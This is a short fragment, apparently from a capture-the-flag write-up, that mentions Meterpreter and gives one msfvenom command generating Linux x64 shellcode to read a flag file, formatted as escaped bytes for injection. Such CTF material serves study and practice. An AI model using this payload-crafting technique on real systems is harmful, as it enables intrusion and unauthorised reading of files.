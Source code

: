Available in Meterpreter

MsfVenom can be use to craft a payload
msfvenom -b '\x00' -p linux/x64/exec CMD="/bin/cat /flag/level1.flag" | hexdump -ve '1/1 "\\/x%.2x"' 
